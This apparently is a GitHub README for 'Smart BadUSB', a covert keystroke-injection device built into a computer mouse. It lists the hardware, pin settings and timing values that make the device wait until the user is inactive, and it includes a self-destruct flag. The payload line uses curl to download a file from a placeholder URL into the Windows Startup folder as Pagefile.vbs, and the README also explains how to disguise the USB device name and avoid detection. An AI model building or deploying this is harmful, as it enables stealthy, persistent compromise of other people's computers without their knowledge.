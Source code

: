 <h1>Smart BadUSB Project</h1>

<img src="https://github.com/BhawksGit/SmartBadUSB/blob/main/images/titleSlide.png?raw=true" alt="Smart BadUSB Title Slide">

<h2>Project Overview</h2>
<p>The Smart BadUSB is a modified USB device that mimics a keyboard but is embedded within a standard USB computer mouse. It executes a malicious payload when connected to a host computer without any obvious signs of its presence, making it more discreet than a traditional BadUSB device.</p>

<h2>Key Features</h2>
<ul>
    <li>Detection of the host operating system using HID protocol.</li>
    <li>Use of a photodiode to check for mouse LED activity to determine the best time to execute the payload.</li>
    <li>Self-destruct feature that disables the Arduino after successful payload execution.</li>
</ul>

<h2>Hardware Requirements</h2>
<ul>
    <li>Arduino Pro Micro</li>
    <li>USB 2.0 Expansion Module</li>
    <li>5mm Photodiode</li>
    <li>120 Ohm Resistor</li>
    <li>26 AWG or similar Wire</li>
    <li>Micro USB Solderable Plug or a spliced phone cable</li>
    <li>Soldering Iron & Solder</li>
</ul>

<h2>Using the Program</h2>
<p>This program is designed to operate with specific pin settings and timing variables to effectively deploy a payload on Windows systems. Below are instructions on how to adjust key parameters and deploy the payload safely and effectively.</p>

<h3>Pin Configuration</h3>
<p>Do not change the pin configuration unless necessary, as they are set to match the hardware setup:</p>
<ul>
    <li><strong>photoTransistorPin</strong>: Analog pin A2, used for the phototransistor sensor.</li>
    <li><strong>VCCPin</strong>: Digital pin 15, used as VCC.</li>
    <li><strong>GNDPin</strong>: Digital pin 16, used as ground.</li>
</ul>

<h3>Timing Variables</h3>
<p>Adjust the following timing variables based on the environmental conditions and the Windows system you are targeting:</p>
<ul>
    <li><strong>interval</strong> (500 ms): Frequency at which the sensor checks are performed.</li>
    <li><strong>bootTime</strong> (5000 ms): Wait time after the device is powered on, allowing the PC to boot.</li>
    <li><strong>inactiveTime</strong> (5000 ms): Duration to consider the mouse inactive if no movement is detected.</li>
    <li><strong>lockToCoverScreenTime</strong> (65000 ms): Time to wait for the Windows lock screen to revert to the cover screen.</li>
    <li><strong>activeSensorCount</strong> (500): Count of sensor readings indicating active mouse usage before considering the mouse active.</li>
    <li><strong>activeSensorValue</strong> (1016): Sensor reading threshold to determine mouse activity. Adjust based on your phototransistor's sensitivity.</li>
</ul>

<h3>Payload Execution</h3>
<p>To modify the payload, alter the command within the <code>executePayload</code> function:</p>
<pre>
Keyboard.print("cmd /c curl -L URL -o \"%APPDATA%/Microsoft/Windows/Start Menu/Programs/Startup/Pagefile.vbs\" >nul 2>&1");
</pre>
<p>Replace the URL and file path as needed for your specific payload. Ensure that the commands are compatible with the Windows command line interface.</p>
<h3>Operational Flow</h3>
<p>Upon startup, the device checks if it has executed the payload previously through EEPROM state checking. If the payload has not been executed, it continues with the boot process, waiting for the PC to boot, and detecting mouse and system activity to determine the optimal time to deploy the payload.</p>

<h3>Compatibility</h3>
<p>Currently, this program is designed to work exclusively with Windows-based systems. It leverages specific Windows features, such as the "Run" dialog and keyboard shortcuts, to execute its payload effectively.</p>
<p>Support for Mac and Linux systems is under development, focusing on adapting to different system behaviors and command execution methods specific to these platforms.</p>

<h3>Resetting the Device</h3>
<p>If you need to reset the device and clear the EEPROM:</p>
<pre>
// To reset the EEPROM, short pin 8 to ground momentarily. This clears the flag and allows the payload to be executed again.
EEPROM.write(0, 0);
</pre>

<h3>Debugging</h3>
<p>For debugging purposes, use the serial output to monitor the status and operation of the device. Ensure to disable or remove serial debugging in the final deployment to avoid detection.</p>

<h2>Renaming the Arduino Device for Obfuscation</h2>
<p>To further disguise your Smart BadUSB device, you can rename its identification to something less suspicious, such as "USB Device". This process involves using the Musinou hardware library to customize the USB device name.</p>

<h3>Steps to Rename Your Arduino Device:</h3>
<ol>
    <li><p><strong>Download the Musinou Hardware Library:</strong> Download and extract the Musinou hardware configuration files from <a href="https://liveelectronics.musinou.net/code/mididevicename/">this link</a> and place them under <code>/Users/username/Documents/Arduino/hardware/</code> on your computer.</p></li>
    <li><p><strong>Modify Device Settings:</strong> Close your Arduino IDE if it's open. Navigate to <code>/Users/username/Documents/Arduino/hardware/musinou/avr/</code> and open the <code>boards.txt</code> file. Locate the lines for your Arduino model, for example:</p>
        <pre>
micromusinou.build.vid=0x2340
micromusinou.build.pid=0x8030
micromusinou.build.usb_product="Arduino Micro Musinou"
        </pre>
        <p>Change the <code>usb_product</code> value to a generic name, in this case we'll make it "USB Device".</p>
    </li>
    <li><p><strong>Save Changes and Reopen the IDE:</strong> Save the modified <code>boards.txt</code> file. Reopen the Arduino IDE, and select "USB Device" as the board.</p></li>
    <li><p><strong>Upload Your Code:</strong> Upload your existing Smart BadUSB code to the Arduino. This process will install the code under the new device name, making it appear as a generic "USB Device" in system reports and connected devices lists.</p></li>
    <li><p><strong>Verify Device Name:</strong> Connect the Arduino to a computer. The device should now display with the new name "USB Device".</p></li>
</ol>

<p>This renaming technique adds an extra layer of stealth, making the Smart BadUSB less noticeable and suspicious when connected to a host computer.</p>

<h2>Installation and Setup</h2>
<p>Refer to the Arduino IDE for uploading the provided <code>SmartBadUSB_Program_Arduino_Pro_Micro.ino</code> script to the Arduino Pro Micro. Detailed wiring instructions and setup procedures can be found in the documentation linked below.</p>
<a href="https://github.com/BhawksGit/SmartBadUSB">GitHub Repository</a>

<p>Thank you for exploring the Smart BadUSB project. For more information or to contribute, please visit the GitHub repository linked above.</p>
